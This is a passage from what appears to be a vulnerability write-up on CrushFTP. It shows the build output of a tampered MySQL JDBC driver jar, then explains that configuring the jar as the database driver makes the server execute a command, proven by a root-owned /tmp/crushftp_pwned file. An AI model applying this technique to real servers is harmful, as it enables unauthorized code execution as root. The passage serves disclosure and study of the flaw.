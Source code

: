 ```shell
adding: com/mysql/jdbc/jdbc2/optional/PreparedStatementWrapper.class(in = 9557) (out= 2923)(deflated 69%)
adding: com/mysql/jdbc/jdbc2/optional/StatementWrapper.class(in = 8635) (out= 2843)(deflated 67%)
adding: com/mysql/jdbc/jdbc2/optional/SuspendableXAConnection.class(in = 3889) (out= 1679)(deflated 56%)
adding: com/mysql/jdbc/jdbc2/optional/WrapperBase.class(in = 897) (out= 504)(deflated 43%)
adding: com/mysql/jdbc/log/(in = 0) (out= 0)(stored 0%)
adding: com/mysql/jdbc/log/CommonsLogger.class(in = 2725) (out= 911)(deflated 66%)
adding: com/mysql/jdbc/log/Jdk14Logger.class(in = 4520) (out= 1852)(deflated 59%)
adding: com/mysql/jdbc/log/Log.class(in = 489) (out= 261)(deflated 46%)
adding: com/mysql/jdbc/log/Log4JLogger.class(in = 2752) (out= 987)(deflated 64%)
adding: com/mysql/jdbc/log/LogFactory.class(in = 3130) (out= 1472)(deflated 52%)
adding: com/mysql/jdbc/log/LogUtils.class(in = 3274) (out= 1891)(deflated 42%)
adding: com/mysql/jdbc/log/NullLogger.class(in = 1908) (out= 561)(deflated 70%)
adding: com/mysql/jdbc/log/StandardLogger.class(in = 4161) (out= 1727)(deflated 58%)
adding: com/mysql/jdbc/profiler/(in = 0) (out= 0)(stored 0%)
adding: com/mysql/jdbc/profiler/ProfileEventSink.class(in = 1835) (out= 928)(deflated 49%)
adding: com/mysql/jdbc/profiler/ProfilerEvent.class(in = 5720) (out= 2800)(deflated 51%)
adding: com/mysql/jdbc/util/(in = 0) (out= 0)(stored 0%)
adding: com/mysql/jdbc/util/BaseBugReport.class(in = 2200) (out= 1089)(deflated 50%)
adding: com/mysql/jdbc/util/ErrorMappingsDocGenerator.class(in = 581) (out= 348)(deflated 40%)
adding: com/mysql/jdbc/util/LRUCache.class(in = 700) (out= 454)(deflated 35%)
adding: com/mysql/jdbc/util/PropertiesDocGenerator.class(in = 721) (out= 423)(deflated 41%)
adding: com/mysql/jdbc/util/ReadAheadInputStream.class(in = 4549) (out= 2490)(deflated 45%)
adding: com/mysql/jdbc/util/ResultSetUtil.class(in = 1718) (out= 977)(deflated 43%)
adding: com/mysql/jdbc/util/ServerController.class(in = 4914) (out= 2499)(deflated 49%)
adding: com/mysql/jdbc/util/TimezoneDump.class(in = 1825) (out= 989)(deflated 45%)
adding: com/mysql/jdbc/util/VersionFSHierarchyMaker.class(in = 3699) (out= 2113)(deflated 42%)
adding: manifest.txt(in = 36) (out= 38)(deflated -5%)
adding: org/(in = 0) (out= 0)(stored 0%)
adding: org/gjt/(in = 0) (out= 0)(stored 0%)
adding: org/gjt/mm/(in = 0) (out= 0)(stored 0%)
adding: org/gjt/mm/mysql/(in = 0) (out= 0)(stored 0%)
adding: org/gjt/mm/mysql/Driver.class(in = 699) (out= 459)(deflated 34%)
adding: org/gjt/mm/mysql/Driver.java(in = 575) (out= 307)(deflated 46%)

```

Once the jar is ready, we can now go back to the CrushSQL and configure the Database Driver file and save the settings. Once we clicked on “Test settings”, it will hang up for a second and throw the shown error but the command will be executed:

![Untitled](/img/CrushFTP/Untitled_8.png)

We can see that the file has been created:

```shell
ζ ls -la /tmp/crushftp_pwned                                                                                                                                                                                        
-rw-r--r-- 1 root root 0 May  9 07:22 /tmp/crushftp_pwned
```
